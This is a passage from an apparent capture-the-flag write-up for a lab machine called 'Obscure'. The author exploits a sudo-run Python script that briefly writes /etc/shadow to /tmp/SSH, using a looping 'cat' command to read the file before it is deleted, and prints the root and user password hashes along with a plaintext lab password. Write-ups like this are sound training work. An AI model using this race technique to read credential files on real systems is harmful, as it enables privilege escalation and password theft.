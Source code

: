 ```python
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

So it reads `/etc/shadow` and prints the contents to `/tmp/SSH/<random string>`, but then deletes it:  

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Traceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
    with open('/tmp/SSH/'+path, 'w') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/sAA8uSDX'
```

the filename is never really the same (as far as I tested -- I doubt that guessing the filename is the correct answer anyway). So what I think I need to do is somehow read-out the contents while the file exists, before it gets deleted. A while loop seems like the best candidate. 

`while [ true ]; do cat /tmp/SSH/* 2>/dev/null; done`

So now I run that in one shell, and in another I run the `BetterSSH.py` script as `sudo`:

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: test
Enter password: test
Traceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
    with open('/tmp/SSH/'+path, 'w') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/9C76vjZa'
```

And I couldn't figure out why that wasn't working until I kept it simple stupid. I did not have `/SSH/` in for the script to create the temporary file. After making that, I run it again:

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: asd
Enter password: asd
Invalid user
```

This time I captured some hashes:

```console
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7




robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
```